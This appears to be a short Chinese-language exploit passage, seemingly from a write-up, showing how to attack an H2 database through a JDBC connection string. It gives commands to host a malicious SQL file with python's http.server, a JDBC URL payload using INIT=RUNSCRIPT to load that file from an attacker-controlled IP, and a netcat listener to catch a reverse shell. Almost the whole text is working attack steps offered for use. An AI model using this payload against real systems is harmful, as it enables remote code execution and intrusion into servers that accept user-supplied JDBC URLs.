 启动提供SQL文件远程加载服务

```
python3 -m http.server 端口
```

-填入Payload使其加载远程SQL

```

jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://搭建的IP:端口/h2database.sql';\

nc -lvvp xxxx

```

